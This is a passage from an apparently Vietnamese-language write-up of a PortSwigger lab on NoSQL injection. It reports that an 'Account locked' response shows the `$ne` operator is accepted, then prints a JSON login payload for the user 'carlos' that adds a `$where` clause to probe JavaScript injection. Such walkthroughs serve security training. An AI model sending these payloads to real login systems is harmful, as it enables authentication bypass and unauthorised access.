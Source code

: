 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image56.png?raw=true)

=> Website phản hồi "Account locked", chứng minh rằng toán tử `$ne` đã được chấp nhận và ứng dụng dễ bị tấn công.

Tiếp theo, thử khai thác lỗ hổng `JavaScript Injection`. Thêm tham số `$where` vào yêu cầu JSON như sau:

    {
        "username": "carlos",
        "password": {"$ne": "invalid"},
        "$where": "0"
    }

![img](https://github.com/DucThinh47/PortSwigger/blob/main/NoSQL-Injection/images/image57.png?raw=true)
